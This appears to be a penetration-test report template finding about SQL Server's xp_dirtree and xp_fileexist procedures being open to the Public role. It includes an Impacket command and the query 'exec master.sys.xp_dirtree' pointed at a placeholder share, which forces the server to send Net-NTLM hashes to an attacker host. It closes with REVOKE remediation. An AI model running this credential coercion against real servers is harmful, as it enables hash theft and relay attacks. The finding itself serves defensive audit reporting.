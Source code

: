 ```yaml
---
category: "CNF"
cvss: "5.3"
---
```

### SQL Server Stored Procedures Enabled
Review of the SQL servers listed above revealed that native extended stored procedures such as "xp_fileexist" and "xp_dirtree" were enabled and accessible by low privileged users who are members of the "Public" role.

An attacker could leverage these stored procedures to force the SQL Server instance to authenticate to a remote attacker-controlled host. The connection triggered will automatically include an authentication challenge that contains the hashed Windows credentials of the account running the SQL Server instance.

The following proof of concept shows how Net-NTLM hashes for the service account that the SQL server is running as, can be obtained, using the public "mssqlclient.py" Python script from the Impacket suite:


{==POC==}
`$ mssqclient.py domain/user:password@target`
```
{==PASTE_OUTPUT==}
xp_dirtree \\\\ip\\share

{==PASTE_OUTPUT_RESPONDER==}
```
The above command is equivalent to running the following query on the server directly:

```
exec master.sys.xp_dirtree '\\ip\',1, 1
```
#### Impact: Medium
The stored procedures that are enabled may be used by unprivileged users that had previously gained access to the server. Such an authenticated attacker can force a connection to a target system of their choice that could allow them to either attempt to crack the NTLM hash offline, or relay the connection to another system.
#### Likelihood: Medium
An attacker would need to first gain access to the SQL servers. Additionally, the SQL server needs to run under an account with privileges on other systems or databases or the account needs to have a weak password. OPTION Note that this was {==not==} seen to be the case on the above systems.
#### Recommendation
Remove EXECUTE privileges on the "xp_fileexist" and "xp_dirtree" procedures for non-administrative logins and roles. Example of commands for the "Public" role is shown below:
```
REVOKE EXECUTE ON xp_fileexist to Public
REVOKE EXECUTE ON xp_dirtree to Public
```
See the following URL for more information:

https://docs.microsoft.com/en-us/sql/relational-databases/stored-procedures/delete-a-stored-procedure?view=sql-server-ver15

